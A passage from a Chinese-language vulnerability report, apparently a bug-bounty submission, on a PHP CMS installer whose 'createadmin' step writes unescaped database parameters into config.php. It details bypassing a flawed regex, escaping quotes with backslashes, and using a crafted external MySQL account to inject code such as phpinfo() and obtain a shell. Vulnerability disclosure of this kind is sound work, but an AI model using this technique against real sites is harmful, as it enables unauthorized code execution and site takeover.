        mysql_query("INSERT INTO `".$db_prefix."static_contents` (`id` ,`title` ,`content` ,`create_time` ,`s_locale` ,`published` ,`for_roles`) VALUES ('3', '', NULL , '', 'en', '1', '{member}{admin}{guest}');");

        mysql_query("INSERT INTO `".$db_prefix."static_contents` (`id` ,`title` ,`content` ,`create_time` ,`s_locale` ,`published` ,`for_roles`) VALUES ('4', '', NULL , '', 'en', '1', '{member}{admin}{guest}');");

    }

    echo '1003';

}else if($_a=="createadmin"){

    $link = mysql_connect($db_host,$db_user,$db_pwd);

    if (!$link) {

        echo '1001';

        exit;

    }

    $r = mysql_select_db($db_name,$link);

    if(!$r){

        echo '1002';

        exit;

    }

    mysql_query("set names utf8");

    mysql_select_db($db_name,$link);

    $mysql_query = mysql_query("select VERSION()");

    $mysql_row = mysql_fetch_row($mysql_query);

    $vmysql = $mysql_row[0];

    $_SESSION['vmysql'] = $mysql_row[0];

    $passwd = sha1($admin_pwd);

    $tme = time();

    if ($link) {

        create_config($db_host1,$db_user,$db_pwd,$db_name,$db_prefix,$db_port);

    }

    $query = mysql_query("insert into ".$db_prefix."users(login,passwd,email,lastlog_time,rstpwdreq_time,active,s_role) values('$admin_name','$passwd','admin@**.**.**.**','$tme','0','1','{admin}')");

    $insert_id = mysql_insert_id();

    $query = mysql_query("insert into ".$db_prefix."user_extends(total_saving,total_payment,balance,user_id) values('0.00','0.00','0.00','$insert_id')");

    if($query){

        echo '1004';

    } 
```

可以看到 除开 template setting 和 check 还有其他的

来找找哪个可以利用的。

```php
}else if($_a=="createadmin"){

    $link = mysql_connect($db_host,$db_user,$db_pwd);

    if (!$link) {

        echo '1001';

        exit;

    }

    $r = mysql_select_db($db_name,$link);

    if(!$r){

        echo '1002';

        exit;

    }

    mysql_query("set names utf8");

    mysql_select_db($db_name,$link);

    $mysql_query = mysql_query("select VERSION()");

    $mysql_row = mysql_fetch_row($mysql_query);

    $vmysql = $mysql_row[0];

    $_SESSION['vmysql'] = $mysql_row[0];

    $passwd = sha1($admin_pwd);

    $tme = time();

    if ($link) {

        create_config($db_host1,$db_user,$db_pwd,$db_name,$db_prefix,$db_port);

    }

    $query = mysql_query("insert into ".$db_prefix."users(login,passwd,email,lastlog_time,rstpwdreq_time,active,s_role) values('$admin_name','$passwd','admin@**.**.**.**','$tme','0','1','{admin}')");

    $insert_id = mysql_insert_id();

    $query = mysql_query("insert into ".$db_prefix."user_extends(total_saving,total_payment,balance,user_id) values('0.00','0.00','0.00','$insert_id')"); 
```

我所利用的是这个。 貌似可以直接添加一个管理。 但是不甘心, 看看能不能直接 Getshell。

```php
$link = mysql_connect($db_host,$db_user,$db_pwd);

    if (!$link) {

        echo '1001';

        exit;

    }

    $r = mysql_select_db($db_name,$link);

    if(!$r){

        echo '1002';

        exit;

    } 
```

首先看这里。 要检测 mysql 是否能够连接得上, 并且$db_name 得存在这个 mysql 中。

```php
$_a = ParamHolder::get("_a","");

$_m = ParamHolder::get("_m","frontpage");

$db_host1 = ParamHolder::get("db_host","");

$db_user = ParamHolder::get("db_user","");

$db_pwd = ParamHolder::get("db_pwd","");

$db_name = ParamHolder::get("db_name","");

$db_prefix = ParamHolder::get("db_prefix","");

$db_port = ParamHolder::get("db_port","");

$admin_name = ParamHolder::get("admin_name","");

$admin_pwd = ParamHolder::get("admin_pwd","");

$demo = ParamHolder::get("demo","");

$db_host = $db_host1.":".$db_port; 
```

可以看到哪些参数都是可控的。

我们自己搭建一个 mysql 可外联就行了。

```php
$pattern_db = '/[0-9a-zA-Z]*$/'; 
```

```php
if(!preg_match($pattern_db, $db_name)||!preg_match($pattern_db, $db_user)){

    echo '1001';exit;

} 
```

匹配出除开 0-9 a-z A-Z 以外的就退出。

```php
$passwd = sha1($admin_pwd);

    $tme = time();

    if ($link) {

        create_config($db_host1,$db_user,$db_pwd,$db_name,$db_prefix,$db_port);

    } 
```

这里 跟进去

```php
function create_config($host,$user,$pwd,$dnname,$pre,$port){

    $str = "";

    $str .= "<?php \n";

    $str.="if (!defined('IN_CONTEXT')) die('access violation error!');\n";

    $str.="class Config {\n";

    $str .= "public static \$mysql_ext = 'mysql';\n";

    $str .= "public static \$db_host = '$host';\n";

    $str .= "public static \$db_user = '$user';\n";

    $str .= "public static \$db_pass = '$pwd';\n";

    $str .= "public static \$db_name = '$dnname';\n";

    $str .= "public static \$port = '$port';\n";

    $str .= "public static \$mysqli_charset = 'utf8';\n";

    $str .= "public static \$tbl_prefix = '$pre';\n";

    $str .= "public static \$cookie_prefix = '".randomStr(6)."_';\n";

    $str .= "public static \$enable_db_debug = false;\n";

    $str .= "}?>\n";

    file_put_contents("../config.php",$str); 
```

可以看到 直接写到一个 php 文件里了。 这时候 好像一切都 ok 了。

可是 一切又没有那么的容易。



access violation error!

是不能含有单引号的。 但是在这里 关键的是 他没有过滤转义符。。

然后就进入了无尽的测试当中。。

```php
function create_config($host,$user,$pwd,$dnname,$pre,$port){

    $str = "";

    $str .= "<?php \n";

    $str.="if (!defined('IN_CONTEXT')) die('access violation error!');\n";

    $str.="class Config {\n";

    $str .= "public static \$mysql_ext = 'mysql';\n";

    $str .= "public static \$db_host = '$host';\n";

    $str .= "public static \$db_user = '$user';\n";

    $str .= "public static \$db_pass = '$pwd';\n";

    $str .= "public static \$db_name = '$dnname';\n";

    $str .= "public static \$port = '$port';\n";

    $str .= "public static \$mysqli_charset = 'utf8';\n";

    $str .= "public static \$tbl_prefix = '$pre';\n";

    $str .= "public static \$cookie_prefix = '".randomStr(6)."_';\n";

    $str .= "public static \$enable_db_debug = false;\n";

    $str .= "}?>\n";

    file_put_contents("../config.php",$str); 
```

看这个 理论上来说 只有

```php
$str .= "public static \$mysqli_charset = 'utf8';\n";

    $str .= "public static \$cookie_prefix = '".randomStr(6)."_';\n";

$str .= "public static \$enable_db_debug = false;\n"; 
```

这三行不可控, 但是 由于

```php
$str .= "public static \$db_host = '$host';\n";

    $str .= "public static \$db_user = '$user';\n";

    $str .= "public static \$db_pass = '$pwd';\n";

    $str .= "public static \$db_name = '$dnname';\n"; 
```

这四个 会用来连接 如果连接不上的话 就退出了。 就算不上能随意控制。

```php
$str .= "public static \$port = '$port';\n";

    $str .= "public static \$mysqli_charset = 'utf8';\n";

    $str .= "public static \$tbl_prefix = '$pre';\n"; 
```

就剩下了这两个可控。 但是中间还有了个不可控的。

如果两个可控的挨在一起的话 可以这样

public static $port = '\';

public static $tbl_prefix = ';phpinfo();/*';

但是由于中间多了一个不可控的 所以不能直接这样。。

如果可控的两行没挨在一起的话

那么可控的必须要三行了 才能执行了。。 那怎么办呢?

DB_HOST 肯定是不能改的 要不就连不上了。

那就要从 DB_NAME db_user 和 db_pwd 下手了。

```php
$pattern_db = '/[0-9a-zA-Z]*$/';

if(!preg_match($pattern_db, $db_name)||!preg_match($pattern_db, $db_user)){

    echo '1001';exit;

} 
```

这里的正则 验证了 db_name 和 db_user 但是 这中间连接的是一个 or。

那只要让一个匹配不出除开 09 az AZ 以外的就行了。

那就让 db_name 匹配不出 因为我测试了 db_name 在我创建数据库的时候无法添加符号的。

这样只有从 db_user 和 db_pwd 下手了。

在本地的 mysql 里 建一个含有特殊字符的 账户 和 密码。

[[email protected]](cdn-cgi/l/email-protection)\ 密码为;/*

这样类似的就行了。

来测试测试。

## 漏洞证明



首先建立一个账户。 要记得对一些字符转义。

然后 访问



来看看配置文件。



直接访问首页。



成功 getshell。

## 修复方案

说得很清楚啦。

低调求 20.